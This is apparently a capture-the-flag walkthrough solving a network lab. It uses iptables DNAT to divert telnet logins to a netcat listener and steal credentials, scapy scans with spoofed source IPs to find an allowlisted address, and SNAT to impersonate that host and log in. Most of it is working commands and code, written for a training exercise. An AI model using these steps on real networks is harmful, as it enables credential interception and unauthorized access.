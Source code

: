 # SPOILER ALERT

This is just one possible way of solving this challenge.  

Note for CTF admins: It requires a custom docker bridge networking driver because docker doesn't play nice with IP spoofing (long story).  Please follow installation instructions here, or the docker networks probably won't start ("l2bridge" driver undefined).  

https://github.com/nategraf/l2bridge-driver

## Catch the credentials

### Attacker

```bash
tcpdump -ni any
```

Notice SYN's and RST's for telnet/23.  Let's give it something to connect to... Look into using iptables for simple TCP connection redirection.  

```bash
man iptables
man iptables-extensions
/DNAT
```

Place our address translation rule and then watch the counter for how many packets hit the rule

```bash
iptables -t nat -A PREROUTING -s 172.22.1.14 -d 172.22.0.8  -p tcp --dport 23 -j DNAT --to-destination 172.22.0.254:8023
iptables -t nat -vnL
```

Yum, credentials.  Now how are we going to use them if the port is closed?

```bash
nc -lp 8023 >> captured.txt &
```

Sometimes the whole session doesn't come through, stopping after the telnet negotiation or the username.  Trying again worked for me, though you could also try more flags to netcat

```bash
nc -tlvp 8023 -o hexdump >> capture.txt &
```

## Find the known-good source IP

We'll need to find the right source IP, based on the hint in the email.  

A long-running issue I encountered at this point was in not scapy-ing properly.  I was using ```send()``` which is layer 3 rather than ```sendp()``` layer 2.  This meant that the interface I was specifying with iface= was being partially ignored, because the kernel still had to resolve the Ethernet headers, so it was using ARP, which was shooting out an interface determined by the routing table rather than the one I wanted where the actual target lived.  Anyway, if you're trying to swim against the routing table slap an Ethernet header on there and use ```sendp()``` like a real hacker.  

I also discovered a nice little feature of python lambda functions: they will automatically unpack tuples if you feed them multiple parameters.  Scapy likes to pass around tuples of related packets, like (answered, unanswered) and (sent, received), so that feature lets you unpack them in a nice readable way. 

Also ```srp()``` will only accept one answer per packet unless you specify ```multi=True```.  One answer is just fine for our purposes, but it was interesting to see the 3 SYN/ACK packets the server responds with as it tries to keep the connection alive.  

We're really just blasting these packets out asynchronously, not waiting at all between them, so some will get dropped.  Hence the ```retry=``` and ```timeout=``` arguments.  Alternatively we could delay 0.1 seconds between each packet with ```inter=0.1```.  

```python
# scapy >>>
pkts = [Ether()/IP(src=f'172.22.1.{x}', dst='172.22.0.8')/TCP(dport=23) for x in range(1,254)]
answered, unanswered = srp(pkts, iface='eth1', retry=3, timeout=5, multi=True)
success = answered.filter(lambda sent, recvd: 'R' not in recvd[TCP].flags)
success
success.show()
```

If you're not comfortable with fancy python format strings, list comprehensions, or lambda functions, it could also be done like this.  

```python
# scapy >>>
success = []
for x in range(1,254):
    pkt = Ether()/IP(src='172.22.1.'+str(x), dst='172.22.0.8')/TCP(dport=23)
    answered, unanswered = srp(pkt, iface='eth1', verbose=0)
    if len(answered) == 1:
        sent, recvd = answered[0]
        if 'R' not in recvd[TCP].flags:
            success.append(recvd)
    elif len(answered) > 1:
        print("You must have set multi=True in srp()", answered)
print(success)
```

At the end of the day, you just need a way to scan a particular IP:port combo with a bunch of spoofed source IPs, to find which one is allowed to connect.  Once you find it, it's time to create a full spoofed-source connection.  

## Be the good guys

If we try to connect via telnet to the target, our packets leave our device with the wrong source IP (our own, which will be rejected since it's not known-good).  We can use iptables to change that.  

```bash
man iptables
man iptables-extensions
/SNAT
```

Do we really need the ```-s``` filter for source IP?  Well, we're doing this in the ```POSTROUTING``` chain rather than the ```OUTPUT``` chain (which isn't allowed) so we would be affecting any traffic routed through this device, like maybe legitimate admin traffic that they would notice.  Probably a small risk, but we should understand the routing well enough to know which of our source IPs will be chosen.  And more precise filters == more warm fuzzies, no?

```bash
iptables -t nat -A POSTROUTING -s 172.22.0.254 -d 172.22.0.8  -p tcp --dport 23 -j SNAT --to-source 172.22.1.9
iptables -t nat -vnL
```

```bash
cat captured.txt
# user: monitor 
# pass: monitors_gonna_monit
telnet 172.22.0.8
```

### monitor@netadmin

```bash
whoami
ls
cat flag1.txt
```

Victory!  Now I need to build the next section...
